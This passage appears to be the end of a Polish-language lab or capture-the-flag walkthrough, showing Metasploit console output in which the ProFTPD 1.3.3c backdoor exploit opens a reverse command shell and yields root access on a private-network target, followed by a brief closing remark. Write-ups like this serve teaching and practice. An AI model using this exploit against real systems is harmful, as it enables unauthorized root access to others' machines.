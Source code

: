 ```console
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Wt94AwoZmyiN1F7w\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.1.10:4444 -> 172.16.1.208:50522) at 2021-09-02 20:08:09 +0200

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               172.16.1.10:4444 -> 172.16.1.208:50522 (172.16.1.208)

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > sessions 1
[*] Starting interaction with 1...

id
uid=0(root) gid=0(root) groups=0(root),65534(nogroup)

```
</div>

# Kończymy
Komentarz jest zbędny. Patrzyłem, też inne usługi, ale nie mogłem nic na nie znaleźć. :smiley:
{: .text-justify}